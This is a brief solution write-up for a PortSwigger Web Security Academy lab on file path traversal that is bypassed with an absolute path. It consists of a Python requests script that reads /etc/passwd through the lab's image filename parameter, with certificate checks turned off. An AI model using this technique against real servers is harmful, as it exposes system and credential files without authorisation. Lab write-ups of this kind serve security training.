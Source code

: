 # Lab: File path traversal, traversal sequences blocked with absolute path bypass

link to lab: https://portswigger.net/web-security/file-path-traversal/lab-absolute-path-bypass

Solution: 

```python
import requests

response = requests.get(
    'https://0a38008d033f4a9ccd5336c5005900cf.web-security-academy.net/image?filename=/etc/passwd',
    verify=False,
)

print(response.text)
```